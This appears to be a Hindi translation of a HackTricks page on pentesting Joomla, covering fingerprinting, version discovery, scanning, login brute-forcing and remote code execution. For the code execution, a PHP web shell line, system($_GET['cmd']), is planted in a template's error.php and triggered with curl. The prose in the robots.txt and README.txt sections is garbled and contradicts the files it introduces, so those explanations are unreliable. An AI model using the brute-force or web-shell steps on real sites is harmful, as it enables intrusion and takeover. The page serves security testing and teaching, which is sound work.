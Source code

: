 # Joomla

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** को PR जमा करके।

</details>

### Joomla आंकड़े

Joomla कुछ गैर-पहचान [उपयोग आंकड़े](https://developer.joomla.org/about/stats.html) इकट्ठा करता है जैसे Joomla, PHP और डेटाबेस संस्करण और Joomla स्थापनाओं पर उपयोग में सर्वर ऑपरेटिंग सिस्टम का विवरण। इस डेटा को उनके सार्वजनिक [API](https://developer.joomla.org/about/stats/api.html) के माध्यम से क्वेरी किया जा सकता है।
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## जांच

### खोज / फुटप्रिंटिंग

* **मेटा** की जांच करें
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
# robots.txt

यह एक टेक्स्ट फ़ाइल है जो वेबसाइट वेब क्रॉलर को बताता है कि कौन सी वेब पृष्ठों को क्रॉल करने और इंडेक्स करने की अनुमति है और कौन सी नहीं। यह फ़ाइल वेबसाइट के रूट निर्देशिका में स्थित होती है और वेब क्रॉलर उसे पहले ही खोज लेता है।

यदि आप वेबसाइट के robots.txt फ़ाइल को खोजना चाहते हैं, तो आपको वेबसाइट के रूट डायरेक्टरी में /robots.txt का उपयोग करना होगा। इस फ़ाइल में आपको वेबसाइट के लिए निर्देश दिए गए नियमों की सूची मिलेगी।

यदि आप वेबसाइट के robots.txt फ़ाइल को अद्यतन करना चाहते हैं, तो आपको एक पाठ संपादक का उपयोग करके इसे संपादित करना होगा। आप निर्देश देने के लिए विभिन्न नियमों का उपयोग कर सकते हैं, जैसे कि User-agent, Disallow, Allow, Sitemap आदि।

यदि आप वेबसाइट के robots.txt फ़ाइल को नष्ट करना चाहते हैं, तो आपको इसे रूट डायरेक्टरी से हटा देना होगा। इसका परिणामस्वरूप, कोई भी वेब क्रॉलर आपकी वेबसाइट को क्रॉल कर सकेगा और आपके वेब पृष्ठों को इंडेक्स कर सकेगा।

ध्यान दें कि robots.txt फ़ाइल केवल वेब क्रॉलरों के लिए एक निर्देश है और यह किसी भी सुरक्षा उल्लंघन को रोकने के लिए नहीं है। यदि आपकी वेबसाइट पर किसी तरह का सुरक्षा खतरा है, तो आपको अन्य सुरक्षा उपायों का उपयोग करना चाहिए।
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
# README.txt

यह फ़ाइल जूमला (Joomla) पेंटेस्टिंग के लिए एक गाइड है। यह गाइड वेब एप्लिकेशन के सुरक्षा जांच करने के लिए उपयोगी जानकारी प्रदान करेगा। यह गाइड वेब एप्लिकेशन के विभिन्न पहलुओं को परीक्षण करने के लिए उपयोगी टिप्स, ट्रिक्स और तकनीकों का वर्णन करेगा।

## जूमला (Joomla) के बारे में

जूमला (Joomla) एक प्रसिद्ध ओपन स्रोत वेब डेवलपमेंट फ्रेमवर्क है जिसका उपयोग वेबसाइट और ऑनलाइन ऐप्लिकेशन बनाने के लिए किया जाता है। यह एक मजबूत और सुरक्षित प्लेटफ़ॉर्म है जिसमें विभिन्न सुरक्षा उपाय शामिल हैं, जैसे कि यूजर मैनेजमेंट, एक्सेस कंट्रोल, डेटाबेस सुरक्षा, और वेब एप्लिकेशन फ़ायरवॉल।

## जूमला (Joomla) पेंटेस्टिंग के लिए उपयोगी टिप्स

यहां कुछ उपयोगी टिप्स हैं जो जूमला (Joomla) पेंटेस्टिंग के दौरान उपयोगी साबित हो सकते हैं:

- **वेबसाइट के वर्जन की जांच करें**: जूमला (Joomla) के वर्जन की जांच करना महत्वपूर्ण है क्योंकि नवीनतम सुरक्षा अपडेट उपलब्ध हो सकते हैं जो आपकी पेंटेस्टिंग को सुरक्षित बना सकते हैं।

- **डिरेक्टरी और फ़ाइलों की जांच करें**: जूमला (Joomla) वेबसाइट के डिरेक्टरी और फ़ाइलों की जांच करना आपको सुरक्षा खोजने में मदद कर सकता है। आप अनाम फ़ाइलों, अनुमतियों की जांच, और संदर्भित फ़ाइलों की जांच कर सकते हैं।

- **वेब एप्लिकेशन के विभिन्न पहलुओं की जांच करें**: जूमला (Joomla) पेंटेस्टिंग के दौरान आप वेब एप्लिकेशन के विभिन्न पहलुओं की जांच कर सकते हैं, जैसे कि यूजर मैनेजमेंट, एक्सेस कंट्रोल, डेटाबेस सुरक्षा, और वेब एप्लिकेशन फ़ायरवॉल।

यहां दिए गए टिप्स के अलावा, आप जूमला (Joomla) पेंटेस्टिंग के लिए अन्य ट्रिक्स और तकनीकों का भी उपयोग कर सकते हैं। इस गाइड को ध्यान से पढ़ें और जूमला (Joomla) पेंटेस्टिंग में अपनी क्षमताओं को सुधारें।
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### संस्करण

* **/administrator/manifests/files/joomla.xml** में आप संस्करण देख सकते हैं।
* **/language/en-GB/en-GB.xml** में आप Joomla का संस्करण प्राप्त कर सकते हैं।
* **plugins/system/cache/cache.xml** में आप एक अनुमानित संस्करण देख सकते हैं।

### स्वचालित
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - पेंटेस्टिंग वेब मेथडोलॉजी**](./#cms-scanners) एक धारा है जिसमें CMS स्कैनर हैं जो Joomla को स्कैन कर सकते हैं।

### ब्रूट-फोर्स

आप इस [स्क्रिप्ट](https://github.com/ajnik/joomla-bruteforce) का उपयोग करके लॉगिन को ब्रूट फोर्स करने का प्रयास कर सकते हैं।
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

यदि आपने **व्यवस्थापक प्रमाणपत्र** प्राप्त कर लिया है, तो आप इसके भीतर **RCE प्राप्त कर सकते हैं** एक **PHP कोड** के टुकड़े जोड़कर **RCE प्राप्त करने** के लिए। हम इसे एक **टेम्पलेट** को **अनुकूलित** करके कर सकते हैं।

1. `Configuration` के नीचे बॉटम लेफ्ट पर **`Templates`** पर **क्लिक** करें ताकि टेम्पलेट मेनू खोलें।
2. `Template` स्तंभ हेडर के तहत एक **टेम्पलेट** नाम पर **क्लिक** करें। चलो **`protostar`** को चुनते हैं। इससे हमें **`Templates: Customise`** पेज पर ले जाएगा।
3. अंत में, आप पेज स्रोत खोलने के लिए पेज पर **क्लिक** कर सकते हैं। चलो **`error.php`** पेज को चुनते हैं। हम निम्नलिखित रूप में एक **PHP वन-लाइनर जोड़कर कोड निष्पादन प्राप्त करेंगे**:
1. **`system($_GET['cmd']);`**
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php/error.php?cmd=id`

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करना चाहते हैं? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**.

</details>
